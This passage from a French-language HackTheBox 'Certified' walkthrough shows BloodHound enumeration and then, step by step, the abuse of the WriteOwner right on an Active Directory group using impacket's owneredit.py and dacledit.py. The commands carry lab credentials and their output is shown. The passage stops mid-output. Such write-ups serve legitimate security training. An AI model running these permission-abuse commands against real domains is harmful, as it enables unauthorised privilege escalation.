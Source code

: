 INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 03S
{{< /highlight >}}

Dans BloodHound, nous pouvons facilement remarquer quel chemin prendre afin d'obtenir un accès interactif avec la machine.
![](BH_path.PNG)


## User
### Judith -> Management Group
Nous remarquons que *Judith* a la permission ```WriteOwner``` sur le groupe *management*.
Cette permission nous permet d'ajouter *Judith* en tant que propriétaire et membre du groupe.
![](BH_judith.png)

Premièrement, nous changeons le propriétaire du groupe.
{{< highlight go "hl_lines=1" >}}
$ ./owneredit.py -action write -new-owner 'judith.mader' -target 'MANAGEMENT' 'CERTIFIED.HTB'/'judith.mader':'judith09'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
{{< /highlight >}}

Ensuite, nous ajoutons *Judith* en tant que membre du groupe.
{{< highlight go "hl_lines=1 7 11 13" >}}
$ ./dacledit.py -k 'certified.htb/judith.mader:judith09' -dc-ip certified.htb -principal judith.mader -target "management" -action write -rights FullControl
[-] CCache file is not found. Skipping...
[*] DACL backed up to dacledit-20250314-002015.bak
[*] DACL modified successfully!


$ net rpc group members "management" -U 'judith.mader' -S certified.htb           
Password for [WORKGROUP\judith.mader]:
CERTIFIED\management_svc
